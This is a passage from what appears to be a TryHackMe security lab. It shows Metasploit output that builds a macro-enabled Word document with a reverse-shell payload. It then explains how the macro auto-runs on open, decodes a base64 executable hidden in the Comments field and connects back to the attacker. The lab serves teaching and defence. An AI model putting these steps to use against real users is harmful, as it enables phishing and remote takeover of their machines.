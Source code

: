 ```javascript
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word on Windows


View the full module info with the info, or info -d command.

msf6 exploit(multi/fileformat/office_word_macro) > exploit

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /root/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) > exit
```

As you can see, the Word document with the embedded macro was created and stored in `/root/.msf4/local/msf.docm`.

## The Created Macro-Enabled Document

We mentioned earlier how to create a macro within an MS Word document. You might be interested to see the content of the file created by `msfconsole`. In the screenshot below, we can see the different procedures and functions that make up this macro. **Note:**The AttackBox doesn’t have MS Office installed, so for this section you only have to read along. \n 


1. `AutoOpen()` triggers the macro automatically when a Word document is opened. It searches through the document’s properties, looking for content in the “Comments” field. The data saved using `base64` encoding in the Comments field is actually the payload.
2. `Base64Decode()` converts the payload to its original form. In this case, it is an executable MS Windows file.
3. `ExecuteForWindows()` executes the payload in a temporary directory. It connects to the specified attacker’s system IP address and port.

 ![Example macro code with functions and subroutines](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859885481.png) \n 

The **Comments** field is shown in the screenshot below. It is close to 100,000 characters in our case.

 ![The Comments field in an MS Office document](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/5f04259cf9bf5b57aed2c476-1729859926077.png) \n 

